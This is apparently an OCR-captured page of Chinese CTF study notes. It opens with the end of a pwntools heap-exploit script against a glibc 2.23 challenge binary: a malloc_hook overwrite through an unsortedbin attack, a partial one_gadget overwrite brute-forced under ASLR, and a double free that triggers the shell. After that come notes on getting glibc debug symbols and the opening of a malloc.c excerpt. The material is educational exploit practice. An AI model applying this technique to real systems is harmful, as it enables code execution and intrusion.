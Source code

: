 ```python
add(index=6, size=0x60)
add(index=7, size=0x60) # 这里将会申请到malloc_hook，但是其值为0

# 那么接下来，我们打unsortedbin attack，往malloc_hook里面写main_arena+88
add(index=8, size=0x100)
add(index=9, size=0x100) # 防止合并
delete(index=8) # 此时bk应该是main_arena+88，而在我调试的时候malloc_hook地址为0x7ffff7dd1b10，那么覆盖最低位为0x00（malloc_hook-0x10）即可
edit(index=8, content=p64(0) + p8(0x0))
add(index=10, size=0x100) # 发起unsortedbin attack，会往malloc_hook里面写main_arena+88

# 这里到了最后一步：写malloc_hook里面的main_arena+88的最后三字节为one_gadget。
# 我通过0x45216可以计算出libc_base + 0x45216 = 0x7ffff7a52216，而main_arena+88为0x7ffff7dd1b78，因此写最后三位即可
# 开启ASLR的情况下，0x7ffff7a52216中的那个a不一定为a，这里的成功率也只有1/16，与前面的爆破加起来，概率只有1/4096了。
# one_gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

edit(index=7, content=b'a'*0x13 + b'\xa4\xd2\xaf')

# 完事之后，我们需要触发malloc_hook，简单的方式就是触发malloc_printerr，我们进行一个double free即可
# 我这里尝试了直接malloc，结果反而是无法得到shell，原因还真不太清楚
# add(index=11, size=0x50)
delete(index=5)
delete(index=5)
# debug()
sh.interactive()
```

## 记一次下载glibc 2.23-0ubuntu11.2

这个版本的`glibc`在`glibc-all-in-one`是没有的，但很多情况的ubuntu16实际上是这个`glibc`而不是现在用的`glibc2.23-0ubuntu11.3`。因此以备需要，这个还是需要有一份的。

在[这里](https://launchpad.net/ubuntu/+source/glibc/2.23-0ubuntu11.2)找到的。这里可以选择下amd64的和i386版本。

此外[这里](http://lliurex.net/xenial/pool/main/g/glibc/)也可以找到更多的版本。

进入对应的版本，我先是找到了对应的`deb`包（看着像的），然后直接解压，再解压，拿到一堆libs然后兴冲冲地拿去patchelf了。（后面补充：例如我下的`glibc2.27`的`1.4`版本是`libc6 2.27-3ubuntu1.4`和`libc6-dbg 2.27-3ubuntu1.4`版本）

发现运行起来是没问题的，但是在`gdb`调试的时候会提示没有`debug symbol`。这个时候看了看`glibc-all-in-one`的`download`脚本

发现里面有下载对应的`debug symbol`文件 

因此还是在下`libs`包的地方把带`dbg`文件的也搞下来，并且要解压在对应`libs`文件夹的`.debug`文件夹中（默认隐藏看不到）就可以调试了。

好吧 结果最后发现`BUU`用的应该是`glibc2.23-0ubuntu11`

## malloc源码解读

这里是`glibc 2.23-0ubuntu3`中的`./malloc/mallo.c`部分

```c
static void *
_int_malloc(mstate av, size_t bytes)
{
    INTERNAL_SIZE_T nb; /* normalized request size */
    unsigned int idx;   /* associated bin index */
    mbinptr bin;        /* associated bin */

    mchunkptr victim;     /* inspected/selected chunk */
    INTERNAL_SIZE_T size; /* its size */
    int victim_index;     /* its bin index */

    mchunkptr remainder;          /* remainder from a split */
    unsigned long remainder_size; /* its size */

```